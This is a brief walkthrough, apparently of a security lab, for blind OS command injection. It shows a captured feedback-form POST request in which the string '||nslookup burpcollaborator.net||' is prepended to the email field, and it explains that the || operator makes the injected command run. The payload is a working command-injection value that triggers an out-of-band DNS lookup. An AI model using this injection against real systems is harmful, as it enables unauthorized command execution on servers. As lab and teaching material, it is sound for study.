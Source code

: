 1. Capture the request POST /feedback/submit
2. Prepend the string "||nslookup burpcollaborator.net||" before the value of email parameter in the body of the request. The body of request now looks like this:
```
name=test&email=||nslookup burpcollaborator.net||test%40gmail.com&subject=test&message=test
```
3. || is the logical OR operator. The ```nslookup burpcollaborator.net``` command will execute if its previous command fail, which is the case since the value of email is invalid.